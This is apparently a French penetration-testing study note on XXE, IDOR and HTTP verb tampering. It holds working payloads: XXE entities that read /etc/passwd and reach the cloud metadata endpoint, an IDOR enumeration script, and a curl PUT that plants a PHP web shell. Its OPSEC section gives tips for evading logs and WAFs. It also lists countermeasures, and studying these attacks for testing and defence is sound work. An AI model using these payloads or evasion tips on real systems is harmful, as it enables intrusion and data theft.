

## Contexte et Théorie

Les vulnérabilités Web ciblées ici reposent sur une mauvaise gestion des entrées utilisateur et des mécanismes de contrôle d'accès.

- **XXE (XML External Entity)** : Exploitation de l'analyseur XML pour lire des fichiers locaux ou effectuer des requêtes SSRF via des entités externes.
- **IDOR (Insecure Direct Object Reference)** : Manipulation de paramètres identifiant des objets (ID, noms de fichiers) pour accéder aux données d'autres utilisateurs.
- **HTTP Verb Tampering** : Contournement des contrôles d'accès basés sur les méthodes HTTP (ex: restreindre GET mais oublier HEAD ou PUT).

> [!info]
> Le parsing XML est vulnérable par défaut dans de nombreuses bibliothèques si les entités externes (DTD) ne sont pas explicitement désactivées.

## Flux d'attaque : XXE vers SSRF



## Exploitation XXE

### Lecture de fichiers locaux
L'objectif est d'injecter une entité personnalisée pointant vers un fichier sensible.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>&xxe;</root>
```

### SSRF via XXE
Si le serveur est derrière un pare-feu, utiliser le XXE pour scanner le réseau interne.

```xml
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"> ]>
<root>&xxe;</root>
```

> [!danger]
> L'utilisation de protocoles comme `expect://` peut mener à une exécution de code à distance (RCE) si l'extension PHP correspondante est activée.

## Exploitation IDOR

L'IDOR survient lorsque l'application utilise des identifiants prévisibles (entiers séquentiels, UUIDs non aléatoires).

### Méthodologie
1. Capturer la requête avec Burp Suite.
2. Identifier le paramètre d'objet : `GET /api/v1/orders/1234`.
3. Tester l'incrémentation : `GET /api/v1/orders/1235`.
4. Automatiser avec **Burp Intruder** ou un script Python.

```python
import requests

url = "http://target.com/api/v1/orders/"
for i in range(1000, 1100):
    r = requests.get(f"{url}{i}", cookies={"session": "..."})
    if r.status_code == 200:
        print(f"ID {i} trouvé: {r.text}")
```

> [!tip]
> Toujours tester avec deux comptes utilisateurs distincts pour confirmer que l'autorisation n'est pas vérifiée côté serveur.

## HTTP Verb Tampering

Certaines configurations de serveurs (Apache/Nginx) appliquent des règles de sécurité uniquement sur certaines méthodes HTTP.

### Test des méthodes
Utiliser `curl` pour tester les verbes alternatifs :

```bash
curl -v -X OPTIONS http://target.com/admin/
curl -v -X HEAD http://target.com/admin/
curl -v -X PUT http://target.com/admin/config.php -d "<?php system($_GET['cmd']); ?>"
```

### Contournement de restriction
Si `GET` est bloqué par un `.htaccess` ou une configuration serveur, tester `HEAD` ou `POST` pour voir si la restriction est appliquée globalement.

```bash
# Si GET /admin est 403
curl -v -X POST http://target.com/admin/
```

> [!warning]
> Le Verb Tampering est souvent lié à des erreurs de configuration dans les fichiers `web.xml` (Java) ou `httpd.conf` (Apache).

## Contre-mesures et OPSEC

### Sécurisation XML
- Désactiver la résolution des entités externes (DTD) dans le parser XML.
- Utiliser des formats de données moins complexes comme JSON si possible.

### Sécurisation IDOR
- Implémenter des contrôles d'accès basés sur les rôles (RBAC) à chaque accès à une ressource.
- Utiliser des identifiants non prévisibles (UUIDv4) au lieu d'entiers séquentiels.

### Sécurisation HTTP
- Appliquer les restrictions d'accès sur toutes les méthodes HTTP (ex: `<LimitExcept GET POST>`).
- Utiliser des frameworks modernes qui gèrent l'authentification et l'autorisation de manière centralisée.

### OPSEC
- Le scan IDOR peut générer des milliers de logs 403 ou 404. Utiliser des délais entre les requêtes (`--delay` dans `ffuf` ou `intruder` throttle).
- Les payloads XXE peuvent être détectés par des WAF basés sur des signatures XML. Encoder les payloads en `base64` ou utiliser des encodages UTF-16 si le parser le permet.